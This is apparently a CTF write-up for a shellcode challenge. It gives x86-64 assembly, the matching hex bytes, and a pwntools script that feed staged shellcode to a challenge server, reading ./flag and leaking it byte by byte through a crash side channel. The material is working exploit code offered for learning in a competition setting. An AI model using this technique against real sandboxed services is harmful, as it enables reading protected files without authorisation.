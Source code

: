 We can brute the flag by abusing `read`. For each byte in the flag, we read from an input and check if the first input byte is less than the flag byte. If not, the system crashes itself.

With this, we can send in byte by byte in ascending order until the system crashes; the smallest byte that induces a crash shall be the flag byte.

```asm
mov rax, 0x67616c662f2e
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
xor rax, rax
mov al, 2
syscall

mov rdi, rax
mov dl, 0x40
mov rsi, rsp
mov al, 0
syscall

add rsi, 0     ; replace with flag idx
xor rbx, rbx
mov bl, [rsi]

xor rdi, rdi
mov dl, 2

mov al, 0
syscall
xor rcx, rcx
mov cl, [rsi]
cmp bl, cl
jg 0           ; replace with 0xffffffef

mov al, 1
syscall
```

```
48 B8 2E 2F 66 6C 61 67 00 00 50 48 89 E7 48 31 F6 48 31 D2 48 31 C0 B0 02 0F 05 48 89 C7 B2 40 48 89 E6 B0 00 0F 05 48 83 C6[00]48 31 DB 8A 1E 48 31 FF B2 02 B0 00 0F 05 48 31 C9 8A 0E 38 CB 0F 8F EF FF FF FF B0 01 0F 05
```

The marked byte above controls the index of the flag we want to enumerate.

Testing it out:

```python
from pwn import *

e = context.binary = ELF('./shellcode')
p = e.process() if not args.REMOTE else remote('chall.geekctf.geekcon.top', 40245)

SHELLCODE1 = b'\x48\x31\xC0\x51\xBA\x01\x00\x01\x00\x51\x56\x5B\xFE\x43\x10\x0F\x04\x51'
SHELLCODE2_HEAD = b'\x48\xB8\x2E\x2F\x66\x6C\x61\x67\x00\x00\x50\x48\x89\xE7\x48\x31\xF6\x48\x31\xD2\x48\x31\xC0\xB0\x02\x0F\x05\x48\x89\xC7\xB2\x40\x48\x89\xE6\xB0\x00\x0F\x05\x48\x83\xC6'
SHELLCODE2_TAIL = b'\x48\x31\xDB\x8A\x1E\x48\x31\xFF\xB2\x02\xB0\x00\x0F\x05\x48\x31\xC9\x8A\x0E\x38\xCB\x0F\x8F\xEF\xFF\xFF\xFF\xB0\x01\x0F\x05'

p.sendlineafter(b'shellcode: ', SHELLCODE1)
p.sendline(b'\0'*0x11 + SHELLCODE2_HEAD + bytes([int(input())]) + SHELLCODE2_TAIL)

p.interactive()
```
